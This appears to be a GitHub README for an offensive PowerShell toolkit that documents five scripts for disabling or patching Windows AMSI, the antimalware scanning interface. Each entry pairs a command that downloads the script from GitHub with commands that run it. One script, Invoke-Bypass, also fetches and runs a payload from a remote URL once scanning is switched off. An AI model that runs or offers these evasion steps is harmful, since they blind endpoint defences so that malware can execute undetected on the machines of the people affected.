 ## AMSBP.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Disable-Amsi.ps1
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available (auto-sellection)<br />[Disable-Amsi cmdlet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Invoke-Bypass.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-Bypass](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/Invoke-Bypass.ps1)|disable AMSI within current process + exec script through bypass?|User Land|4 bypass technics available (manual)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```
<br />

**execute:**
```powershell
Get-Help .\Invoke-Bypass.ps1 -full
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   

<br />

## ScanInterception.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[ScanInterception](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/ScanInterception.ps1)|Unchain AMSI by patching the provider’s unmonitored memory space|User Land|Available for x64 bytes only|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/ScanInterception.ps1" -OutFile "ScanInterception.ps1"
```

<br />

**execute:**
```powershell
#Test detection
amsiutils

#Patch amsi scan function
.\ScanInterception.ps1

#Test detection
amsiutils
```   

<br />

## patch-amsi-x64-powershell.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[patch-amsi-x64-powershell](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/patch-amsi-x64-powershell.ps1)|disable AMSI within current process|User Land|Available for x64 bytes only|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/patch-amsi-x64-powershell.ps1" -OutFile "patch-amsi-x64-powershell.ps1"
```

<br />

**execute:**
```powershell
#Test detection
"amsiutils"

#Patch amsi scan function
.\patch-amsi-x64-powershell.ps1

#Test detection
"amsiutils"
```  
